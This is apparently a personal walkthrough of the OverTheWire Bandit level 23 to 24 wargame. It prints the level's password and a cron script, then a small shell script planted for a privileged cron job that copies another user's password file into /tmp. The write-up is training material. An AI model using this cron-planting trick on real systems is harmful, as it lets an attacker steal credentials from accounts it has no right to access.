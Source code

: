 [Bandit Level 23 → Level 24](https://overthewire.org/wargames/bandit/bandit24.html)

> A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.  

> NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!  

> NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…  

username: bandit23  
password: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G  

Solution below:  
———————————————————————————————————————  
`ssh bandit23@bandit.labs.overthewire.org -p2220`  
confirm with `ls /etc/cron.d` and then check for the script with `cat /etc/cron.d/cronjob_bandit24` and then `cat /usr/bin/cronjob_bandit24.sh` to see the contents:  
```
#!/bin/bash

myname=$(whoami) #command sub to set myname=bandit24.
cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*; #for all files in that directory
do
    if [ "$i" != "." -a "$i" != ".." ];#if it's not . or .. then remove it
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then #so if we are the owner it's going to time us out and then remove the file
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```  
So, I can't list the contents of that directory, but we can CD into it, so maybe we can run a script from within here and that'll give us something?  
Oooh, but ok, so I think what we need to do is just make a script, that gets run, but since it's run by the cronjob it'll run as out bandit24 user and have access to the password. So we can just have it save the password to a file that we have access to or cat it out or something like that.  

So, something like this?  
```
#!/bin/bash
cat /etc/bandit_pass/bandit24 >> /tmp/gabedini1/pw.txt
```  
Give it permissions to run with `chmod +x script.sh`  
Then use the `date` command to check for it to reach the top of the minute  
Then when it executes, it makes a file for us which we can cat out with `cat /tmp/gabedini1/pw.txt`  
And there is a our password!  


`exit`  